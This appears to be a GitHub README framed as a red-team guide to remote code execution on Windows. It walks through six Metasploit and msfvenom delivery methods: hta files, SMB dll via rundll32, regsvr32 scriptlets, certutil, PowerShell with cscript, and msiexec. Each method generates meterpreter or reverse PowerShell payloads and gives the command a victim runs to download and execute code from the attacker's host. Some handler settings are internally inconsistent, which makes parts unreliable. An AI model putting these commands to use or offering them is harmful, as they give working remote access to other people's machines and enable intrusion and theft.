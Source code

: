 # Red Team RCE
# Remote code execution guide for Red Teaming

Note: Attacking machine IP: 192.168.100.42
      Victim machine IP: 192.168.100.14

## Malicious hta file:

1. use exploit/windows/misc/hta_server
2. set srvhost 192.168.100.42 //or what the IP of Kali is
3. set lhost 192.168.100.14 //or what the IP of Victim is 
4. set PAYLOAD windows/meterpreter/reverse_http
5. set lhost 192.168.100.14 //or what the IP of Victim is 
6. set LPORT 80 //or any port you want
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Now metasploit will give you the URL of the malicious hta file, it will be something like:
 - [*] Using URL: http://192.168.100.42/sldfkghlasdfk.hta
If you have chosen a different port (i.e. 1234), it will be like http://192.168.100.42:1234/sldfkghlasdfk.hta

Now, in the victim machine you will run:
 - mshta.exe http://192.168.100.42/sldfkghlasdfk.hta

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 

## Malicious dll file:

1. use exploit/windows/smb/smb_delivery
2. set srvhost 192.168.100.42 //or what the IP of Kali is
3. set PAYLOAD windows/meterpreter/reverse_http
4. set lhost 192.168.100.14 //or what the IP of Victim is 
5. set LPORT 80 //or any port you want
6. set SessionCommunicationTimeout 0
7. set ExitOnSession false
8. exploit –j

Now metasploit will give you the command to run, like:
 - msf exploit(windows/smb/smb_delivery) > rundll32.exe \\192.168.100.42\fiWi\test.dll,0
	
Now, in the victim machine you will run:
 - rundll32.exe \\192.168.100.42\fiWi\test.dll,0

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 


## Malicious sct file:

1. use exploit/multi/script/web_delivery
2. set target 3 //or “show targets” and choose adequately
3. set PAYLOAD windows/meterpreter/reverse_http
4. set lhost 192.168.100.14 //or what the IP of Victim is 
5. set srvhost 192.168.100.42 //or what the IP of Kali is
6. set LPORT 80 //or any port you want
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Metasploit will give you the command to run, like:
 - [*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.100.42:8080/asdfasdf.sct scrobj.dll

Now, in the victim machine run:
regsvr32 /s /n /u /i:http://192.168.100.42:8080/asdfasdf.sct scrobj.dll

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 


## Certutil:

1. msfvenom -p windows/meterpreter/reverse_http lhost=192.168.100.42 lport=4443 -f exe > malware.exe
2. Run apache to serve malware.exe or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/malware.exe
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 4443
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

On the victim machine run on a command prompt:
 - certutil.exe -urlcache -split -f http://192.168.100.42/malware.exe malware.exe & malware.exe


## Cscript:

1. msfvenom -p cmd/windows/reverse_powershell lhost=192.168.100.42 lport=4443 -f vbs > mal.vbs
2. Run apache to serve mal.vbs or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/mal.vbs
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 4443
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Nn the victim machine run:
 - powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.100.42/mal.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""


## Msiexec:

1. msfvenom -p cmd/windows/reverse_powershell lhost=192.168.100.42 lport=8080 -f msi > mal.msi
2. Run apache to serve mal.vbs or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/mal.msi
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 8080
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Now on the victim machine ruun:
 - msiexec /q /i http://192.168.100.42/mal.msi

This can also be replicated by generating the .exe from step 1 of certutil and manually packing it as msi using a freeware tool (i.e. msipacker).
